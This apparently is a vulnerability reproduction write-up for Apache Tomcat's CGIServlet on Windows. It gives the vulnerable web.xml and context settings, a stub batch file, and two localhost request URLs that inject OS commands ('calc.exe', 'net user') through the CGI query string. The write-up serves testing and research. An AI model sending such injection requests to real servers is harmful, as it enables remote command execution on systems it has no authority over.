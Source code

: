#### Vulnerability Environment
```
Tomcat 8.5.39

Jdk 8u121
```

#### Edit `web.xml` file 
```
<servlet>
        <servlet-name>cgi</servlet-name>
        <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
        <init-param>
          <param-name>debug</param-name>
          <param-value>0</param-value>
        </init-param>
        <init-param>
          <param-name>cgiPathPrefix</param-name>
          <param-value>WEB-INF/cgi-bin</param-value>
        </init-param>
        <init-param>
          <param-name>executable</param-name>
          <param-value></param-value>
        </init-param>
         <load-on-startup>5</load-on-startup>
</servlet> 

<!-- The mapping for the CGI Gateway servlet -->

    <servlet-mapping>
        <servlet-name>cgi</servlet-name>
        <url-pattern>/cgi-bin/*</url-pattern>
    </servlet-mapping>
```

#### Edit `content.xml` file
```
<Context privileged="true">

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>
```

#### Create `hello.bat` file  
```
echo Content-type: text/html     //whatever the content in batch file
```

#### Move the directory `WEB-INF` to `$CATALINA_HOME/webapps/ROOT` and then restart tomcat server

#### Send a request to the target tomcat server with Windows OS command injection
```
http://localhost:8080/cgi-bin/hello.bat?&C%3A%5CWindows%5CSystem32%5Ccalc.exe

http://localhost:8080/cgi-bin/hello.bat?&net+user
```
